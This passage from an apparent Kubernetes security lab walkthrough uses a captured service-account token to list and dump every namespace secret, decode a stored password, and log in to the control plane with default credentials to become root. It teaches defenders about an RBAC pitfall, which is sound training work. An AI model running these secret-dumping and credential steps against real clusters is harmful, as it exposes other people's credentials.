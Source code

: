 65. Display the token file:

    ```shell
    cat token
    ```

66. Now, let's see what that token can do!

    ```shell
    kubectl --token=$(cat token) auth can-i --list
    ```

67. Notice that the token is allowed to list secrets, but isn't allowed to retrieve any secrets.

68. Try listing secrets in this namespace.

    ```shell
    kubectl --token=$(cat token) get secrets
    ```

69. Now, time for the unintended side effect that has burned a number of defenders. Append a `-o yaml` to that last command to see the contents of every secret!

    ```shell
    kubectl --token=$(cat token) get secrets -o yaml
    ```

70. Notice that you can see the contents of all the secrets in this namespace. They're base64-encoded, but that's easy enough to deal with.

71. Let's examine one of the secrets in that dump. Take a look at the base64-encoded version of the transaction-secrets secret's password key.

    ```shell
    kubectl --token=$(cat token) get secrets -o yaml | \
      grep -B 10 'name: transactions-secret' | grep password
    ```

72. Grab the right hand side and base64 decode it:

    ```shell
    kubectl --token=$(cat token) get secrets -o yaml | \
      grep -B 10 'name: transactions-secret' | \
      grep password | awk '{print $2}' | base64 -d ; echo ""
    ```

73. Let's look at an admission controller called [Kyverno](https://kyverno.io/). Start another terminal tab by hitting `Ctrl-shift-t`.

74. Connect to the control plane node as the `bustakube` user using the password `bustakube`:

    ```shell
    ssh bustakube@bustakube-controlplane
    bustakube
    ```

75. Run sudo su - to elevate to `root`, using the password `bustakube`:

    ```shell
    sudo su -
    bustakube
    ```
